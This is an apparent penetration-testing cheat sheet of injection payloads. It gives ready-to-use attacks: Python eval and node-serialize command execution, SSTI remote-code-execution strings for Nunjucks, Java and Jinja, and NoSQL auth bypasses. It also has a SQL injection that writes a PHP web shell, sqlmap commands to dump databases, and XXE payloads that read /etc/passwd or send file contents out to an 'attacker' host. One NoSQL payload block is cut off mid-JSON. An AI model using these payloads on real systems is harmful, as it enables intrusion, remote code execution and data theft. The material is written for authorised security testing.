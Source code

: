 # Types

- Code Injection
- Deserialization Injection
- NoSQL Injection
- Server-Side Template Injection
- SQL Injection
- XML External Entity

# Code Injection

## Python

Eval Command Execution
`eval("__import__('os').system('id')")`

# Deserialization Injection

## JavaScript

Payload Generator
```
var y = {
	rce : function(){
		require('child_process').exec('ping -c 1 ipaddress /', function(error, stdout,	stderr) { console.log(stdout) });
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

# NoSQL Injection

Test Payload 1
`admin' || '' === '`

Test Payload 2
```
Content-Type: application/x-www-form-urlencoded
user=admin&password[$ne]=admin
```

Test Payload 3
```
Content-Type: application/json
{
	"user":"admin",
```

Test Payload 4
```
Content-Type: application/json
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

# Server-Side Template Injection

## Nunjucks (NodeJS)

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('payload')")()}}
```

## Java

RCE Payload 1
```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('payload')
.getInputStream())}
```

## Python

Test Payload 1
`{{1+1}}` (Should eval to 2)

RCE Payload 1
`{{config.__class__.__init__.__globals__['os'].popen('payload').read()}}`

RCE Payload 2
```
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("payload").read()}}
```

# SQL Injection

## Manual

### Enumeration

Basic Error Test
`value'`

Confirm SQL Injection Possible (if error goes away)
Note: The last dash protects the trailing space, which can get removed otherwise
`value' -- -`

Circumvent Query Condition
`' or 1=1;-- -`

Determine Number of Columns in Select (add/remove numbers until no error)
`value' union select 1,2,3-- -`

### Exploitation

Into Outfile Web Shell
`value' union select "<?php echo system($_REQUEST['c']); ?>" into outfile '/var/www/html/shell.php'-- -`

## sqlmap

### Request

Save Request
`In burp, intercept the request, and right click > Save Item. (E.g.: request.req)`

Initial Tests (--batch accepts all defaults to prompts)
`sqlmap -r request.req --batch`

Check User Privs (E.g., FILE)
`sqlmap -r request.req --batch --privileges`

Enumerate databases
`sqlmap -r request.req --batch --dbs`

Get table names from dbname database
`sqlmap -r request.req --batch -D dbname --tables`

Dump the tblname table
`sqlmap -r request.req -D dbname -T tblname --dump`

### CLI Spec

Login, Username Param
`sqlmap -u http://url/endpoint?action=login --data="username=abc&password=abc" -p username [--level 5 --risk 3 to find more options] --batch`

JSON API
`sqlmap -u "protocol:address:port" --data '{"param_name": "*"}' --dbs [--threads 10 for speed] [--level 5 --risk 3 to find more options] --batch`

# XML External Entity

For best results, don't modify any formatting found used by the client/server.

## LFI Method 1

```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<exampletag>&file;</exampletag>
```

Note: If the system has PHP and you want to base64 encode a file (binary, PDF, etc.) for easy transfer, use the following:
`<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/path/to/file">`
## LFI Method 2

Create Payload
```
evil.dtd accessible via attacker web server:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://attacker/?p=%file;'>" >
```

Start web server

Inject Stager
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM 'http://attacker/evil.dtd'>%remote;%init;%trick;
]>
```
